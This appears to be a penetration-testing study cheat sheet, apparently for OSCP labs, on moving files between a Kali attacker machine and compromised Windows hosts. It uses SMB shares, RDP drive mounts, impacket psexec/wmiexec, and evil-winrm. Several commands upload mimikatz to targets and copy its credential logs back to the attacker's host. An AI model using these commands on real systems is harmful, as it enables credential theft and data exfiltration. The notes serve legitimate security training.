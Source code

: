 ##SMB File Transfer 
kali>impacket-smbserver test . -smb2support  -username ashok -password reddy </br>
WIN>net use m: \\192.168.45.242\home\kali\Desktop\HTB\OSCP\AD\beyond /user:kourosh kourosh </br>
WIN>copy 20240715135750_BloodHound.zip m:\ </br>

 0) SSH

```bash
kali>sudo service ssh start (Transfer file windows to kali)
```

```bash
WIN>scp file kali@192.168.45.208:/home/kali/Desktop/HTB/OSCP(Windows)
```



OSCP Note - https://discord.com/channels/780824470113615893/1148907181480104028
Youtube - https://www.youtube.com/watch?v=kd0sZWI6Blc
1) SMB: 
On Kali:
```bash
impacket-smbserver test . -smb2support  -username ashok -password reddy
```
On Windows:
```powershell
net use m: \\Kali_IP\test /user:ashok reddy
copy mimikatz.log m:\
```
2) RDP mounting shared folder:
- Using xfreerdp:
On Kali:
```bash
xfreerdp /cert-ignore /compression /auto-reconnect /u:
offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen-
200
```
On windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```
- Using rdesktop:
On Kali: 
```bash
rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200
```
On Windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```
3) Impacket tools:
psexec and wmiexec are shipped with built in feature for file transfer.
**Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path.
Uploading mimikatz.exe to the target machine:
```bash
C:\Windows\system32> lput mimikatz.exe
[*] Uploading mimikatz.exe to ADMIN$\/
C:\Windows\system32> cd C:\windows
C:\Windows> dir /b mimikatz.exe
mimikatz.exe
```
Downloading mimikatz.log:
```bash
C:\Windows> lget mimikatz.log
[*] Downloading ADMIN$\mimikatz.log
```
4) Evil-winrm:
- Uploading files:
```bash
upload mimikatz.exe C:\windows\tasks\mimikatz.exe
```
- Downloading files:
```bash
download mimikatz.log /home/kali/Documents/pen-200
```
5) C2 frameworks:
Almost any of the C2 frameworks such as Metasploit are shipped with downloading and uploading functionality.

6) In FTP, binaries in ASCII mode will make the file not executable. Set the mode to binary.

Additional Resources:
File Transfer:  https://www.youtube.com/watch?v=kd0sZWI6Blc
PEN-100: https://portal.offsec.com/learning-paths/network-penetration-testing-essentials-pen-100/books-and-videos/modal/modules/file-transfers

Happy hacking!
